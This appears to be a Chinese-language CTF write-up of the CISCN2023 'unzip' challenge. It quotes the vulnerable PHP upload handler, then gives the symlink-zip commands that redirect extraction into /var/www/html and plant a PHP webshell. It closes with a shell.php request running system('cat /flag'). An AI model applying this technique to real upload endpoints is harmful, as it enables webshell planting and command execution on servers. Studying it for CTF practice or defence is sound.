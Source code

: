 ## Unzip

###### Linux软链接

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$finfo = finfo_open(FILEINFO_MIME_TYPE);
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
    //这里是验证MIME值，确定上传的文件类型为zip，同时也为我们指明了方向，要上传一个zip压缩包。
    exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
    //这里的意思是进入/tmp目录下，然后调用unzip命令对压缩包进行解压，也就是把压缩包解压到/tmp目录下。
};

//only this!
```

有一篇博客写得很清晰：[【CISCN2023】unzip 详解 - gxngxngxn - 博客园 (cnblogs.com)](https://www.cnblogs.com/gxngxngxn/p/17439035.html)

首先什么是软链接：**软链接就是可以将某个目录连接到另一个目录或者文件下，那么我们以后对这个目录的任何操作，都会作用到另一个目录或者文件下。**

那么方向就很明显了，我们可以先上传一个带有软连接的压缩包，这个软连接指向网站的根目录，即/var/www/html,然后我们再上传一个带有马的文件的压缩包，就可以将这个带马文件压缩到网站的根目录下，我们也可以直接访问这个带马文件了，思路瞬间清晰捏，那么直接开始实践:

首先单独创造一个文件夹，然后利用下述命令创建软连接的压缩包:

![img](https://img2023.cnblogs.com/blog/3181170/202305/3181170-20230528223957513-1926723708.png)



```
关键命令:

ln -s /var/www/html link

zip --symlinks link.zip link
```

然后删除link（防止与文件夹重名）这个文件，创建一个名为link的文件夹，然后在这个文件夹下写入带马的Php文件(因为之前我们软连接的文件叫做link，所以我们要让这个压缩在这个文件夹下面):
[![img](https://img2023.cnblogs.com/blog/3181170/202305/3181170-20230528224221795-1571928764.png)](https://img2023.cnblogs.com/blog/3181170/202305/3181170-20230528224221795-1571928764.png)

然后先返回上一级目录,将这个带马的文件进行压缩：

[![img](https://img2023.cnblogs.com/blog/3181170/202305/3181170-20230528224049702-439513493.png)](https://img2023.cnblogs.com/blog/3181170/202305/3181170-20230528224049702-439513493.png)

那么现在完事具备了，只欠上传捏~

[![img](https://img2023.cnblogs.com/blog/3181170/202305/3181170-20230528224100944-371121154.png)](https://img2023.cnblogs.com/blog/3181170/202305/3181170-20230528224100944-371121154.png)

先上传link.zip,然后再上传link1.zip~~~

[![img](https://img2023.cnblogs.com/blog/3181170/202305/3181170-20230528224113908-1058361334.png)](https://img2023.cnblogs.com/blog/3181170/202305/3181170-20230528224113908-1058361334.png)

全部上传完以后，我们就可以访问shell.php,进行命令执行了~~:

[![img](https://img2023.cnblogs.com/blog/3181170/202305/3181170-20230528224126962-1053101306.png)](https://img2023.cnblogs.com/blog/3181170/202305/3181170-20230528224126962-1053101306.png)

至此，这道题算是解决了，好捏~

我的记录：

![image-20231221155741704](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231221155741704.png)

```
http://e57045fe-b921-4859-906f-1b9ce189b58e.challenge.ctf.show/shell.php?123=system(%27cat%20/flag%27);
```

![image-20231221155636673](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231221155636673.png)

